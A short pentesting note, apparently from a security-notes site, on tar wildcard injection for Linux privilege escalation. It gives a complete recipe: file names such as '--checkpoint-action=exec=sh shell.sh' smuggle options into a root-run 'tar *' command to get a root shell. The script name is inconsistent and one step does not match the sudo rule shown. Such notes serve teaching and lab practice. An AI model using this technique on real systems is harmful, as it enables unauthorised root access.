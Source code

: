 ```yaml
---
title: Tar Wildcard Injection PrivEsc
description: Tar command with wildcard injection may lead to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-04-01
draft: false
---
```


## Investigation

For example, below command can be executed as root.

```sh
sudo -l

(root) NOPASSWD: /opt/backup/baskup.sh
```

### Check If the File Contains Tar Command with Wildcards

We need to check the content in the file.  

```sh
cat /opt/backup/backup.sh

# -cf: create an archived file
tar -cf backup.tar *
```

The above **tar** command means that it creates an arvhived file from any input file because it passes **wildcard (*)**.

<br />

## Exploitation

Now create a payload for privilege escalation.

```sh
cd /opt/backup
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

We've created three files.

```sh
ls /opt/backup

shell.sh  '--checkpoint-action=exec=sh shell.sh'  '--checkpoint=1'
```

Now execute **"tar"** command as root with wildcard.

```sh
sudo tar -cf example.tar *
```
Wait until **"tar"** command will be executed.  
After a while, we should see the current user switch to root.

```sh
whoami
root
```